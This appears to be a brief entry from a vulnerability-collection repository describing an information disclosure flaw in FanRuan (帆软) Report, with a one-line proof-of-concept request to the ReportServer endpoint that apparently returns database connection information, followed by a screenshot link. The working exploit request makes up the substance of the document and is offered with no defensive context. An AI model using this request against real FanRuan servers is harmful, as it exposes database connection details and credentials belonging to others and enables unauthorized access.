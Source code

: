 ### 帆软报表 信息泄露漏洞
poc:
```
/ReportServer?op=fr_server&cmd=sc_getconnectioninfo
```
example:
![image](https://user-images.githubusercontent.com/55024146/118276541-5a9d1600-b4fa-11eb-8c83-795b9a8b32ea.png)

